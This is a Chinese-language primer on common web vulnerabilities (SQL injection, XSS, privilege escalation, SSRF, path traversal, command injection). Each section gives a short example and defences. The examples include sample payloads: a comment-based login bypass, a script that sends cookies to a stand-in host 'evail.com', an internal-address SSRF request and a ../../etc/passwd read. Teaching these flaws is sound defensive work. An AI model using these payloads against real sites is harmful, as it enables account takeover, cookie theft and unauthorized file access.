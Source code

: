 # SQL 注入漏洞

SQL 注入漏洞是一种最常见的、危害较大的应用安全漏洞。通过这种漏洞攻击者可以利用应用的数据库查询获取到他们本不应该获取到的数据。比如其他用户的数据（他人的密码信息、敏感个人信息）或者只有应用自身才能访问的数据（数据库名、表名）。在大多数情况下，攻击者甚至可以修改数据或者删除数据，这对应用会造成长久的破坏。在某些特定情况下，攻击者能够通过 SQL 注入漏洞进一步渗透，从而获取服务器或者基础架构设置的权限。

## 举一个例子

以一个用户登录处为例，假如登录处存在 SQL 注入漏洞。已最简单的用户登陆场景为例，假如一个用户名为 `wine` 的用户登录，他的密码是 `winer`。那么当他输入用户名、密码登录的时候，后端执行的逻辑是查询数据库中是否存在对应的用户名以及密码的账户。执行的 SQL 语句类似如下：

```
SELECT * FROM users WHERE username = 'wine' AND password = 'winer'
```

但是如果登录处存在 SQL 注入漏洞，攻击者可以通过注释符号 `--` 实现登录任意用户账号。通过注释符号可以屏蔽掉密码字段的检查。比如提交用户名为 `administrator'--` 以及空密码，其实现的数据库查询语句类似如下:

```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

这个查询语句通过注释符号注释了后面的语句，因此攻击者就可以成功登录。当然这里只是一个比较极端的例子，在现实的应用场景一定是比这个场景复杂很多。

## 如何防御

SQL 注入漏洞形成的根本原因是开发者对用户提交的参数没有做任何的过滤或者处理（或者不充分）。过滤是应对 SQL 注入的一种方式，但这不是一种好的方式，可能会存在绕过。最好的防御 SQL 注入漏洞的方式是使用预编译的方式执行 SQL 语句，绝对不要直接拼接 SQL 语句！！！

# XSS 漏洞

XSS 的英文全称是 Cross-site scripting，一般也可以称为跨站脚本攻击。这种漏洞可以绕过同源策略的限制，可以让攻击者伪装成受害者执行他可以执行的任何操作。如果受害者是一个高权限用户，那么攻击者可以执行更高阶的操作并且获取更多的数据。

## 举一个例子

假设一个应用 `http://example.com/app?name=wine`，参数 `name` 存在 XSS 漏洞。假设攻击者传入 `name` 参数为 `<script>var r = new XMLHttpRequest();r.open('GET','http://evail.com/'+document.cookie);r.send()</script>`并且受害者访问这个恶意链接就会将他的 cookie 信息传输到 `http://evail.com`，攻击者即可以在后端获取用户的 cookie 信息。

## 如何防御

XSS 的防御手段需要结合具体的应用场景，这样既避免影响应用的正常使用，也可以尽可能的防御漏洞的利用。主要防护手段可以结合以下几种：

* 对输入做过滤：尽可能的对输入做过滤，过滤需要结合具体应用实现。
* 对数据输出做编码：当用户的输入参数会输出到请求响应中，应该对输出做编码，避免恶意参数被直接解释执行，通常需要结合 HTML、URL、JavaScript 编码。这一点目前大多数成熟的前端框架已经做得比较完善。
* 使用合适的响应头：如果响应中不包含 HTML 或者 JavaScript，可以通过 `Content-Type` 属性来进行限制。
* CSP 策略：作为纵深防御，可以通过结合 CSP 策略来限制 XSS 漏洞的影响。

# 越权漏洞

越权漏洞是常见应用安全漏洞之一，其危害性以及影响范围都比较大。这种漏洞通常是由于应用没有做好充分的权限校验（或没有做），从而攻击者可以通过低权限账户通过绕过权限检查从而使用高权限账户功能，或者能够访问其他用户的数据。

## 举一个例子

假设一个应用分为普通用户和管理员两种用户角色。只有管理员用户有添加新用户的权限，但是应用并没有在后端校验用户的身份，仅仅是在前端不向普通用户展示添加用户的菜单。攻击者如果知道了添加用户的后端接口，则可以通过直接调用这个接口达到添加用户的目的。

## 如何防御

* 做好接口的接口鉴权，对于任意接口都需要做鉴权操作
* 前后端都应该做好校验，不能依赖前端做校验或通过前端隐藏菜单来进行权限控制
* 敏感的操作可以添加天赐验证
* 对于和用户关联的信息要做到随机性以及不可暴力猜解

# 服务端请求伪造漏洞

服务端请求伪造即 Server-side request forgery(SSRF)，能够允许攻击者通过利用服务端应用向任意域名创建访问请求。通过 SSRF 漏洞，通常可以未授权访问组织内部数据或者是有漏洞的应用。

## 举一个例子

假设存在一个互联网应用有一个 `stock` 接口：

```
POST /product/stock
Content-Type: application/x-wwww-form-urlencoded

stockApi=http://example.com/product/stock/check?productId=123
````

这个接口向另外一个特定的接口创建请求用户获取指定 `productId` 的状态。但是假设尝试通过 `stockApi` 去访问内网应用：

```
POST /product/stock
Content-Type: application/x-wwww-form-urlencoded

stockApi=http://192.168.0.1/admin
````

由于后端没有对访问域名做任何的限制，就能够允许攻击者访问内网应用。

## 如何防御

* 应该尽可能严格地限制接口访问的协议，以及域名
* 限制方式应该尽量使用白名单
* 避免跟随 30X 跳转

# 目录穿越漏洞

目录穿越漏洞能否允许攻击者访问存储在文件系统中的任意文件或者目录，尤其是应用程序源代码、配置文件、以及重要系统文件信息。

## 举一个例子

假设一个应用存在一个读取图片的接口：

```
http://example.com/loadImage?filename=example.png
```

如果后端对于传入的 `filename` 参数没有做任何的校验和过滤，通过访问 `http://example.com/loadImage?filename=../../../etc/passwd` 就有可能访问到服务器的敏感文件信息。

## 如何防御

* 对于用户的输入需要做严格校验，尽量使用白名单的方式校验
* 对于文件路径要做归一化处理

# 命令注入漏洞

命令注入漏洞能够允许攻击者在应用运行的服务器上执行任意系统命令。这种漏洞的危害性极大，并有可能导致能够获取服务器的控制权限。这种漏洞通常是因为开发者直接拼接系统命令来执行或者使用类似于 eval 的函数直接执行参数。

## 举一个例子

假设一个应用存在提供网络探测的功能，用户可以通过 ping 去检测网络状态。假如开发者对于传入的命令没有做任何的过滤限制，那么攻击者就可以利用此来执行任意命令。

## 如何防御

* 对于输入参数严格过滤，仅允许需要使用的命令参数
* 做好命令特殊参数的校验和过滤
* 通过成熟的库来执行操作，避免直接拼接命令调用系统功能


这里只是简单地罗列了一些最常见的应用安全漏洞，欢迎大家拍砖交流。
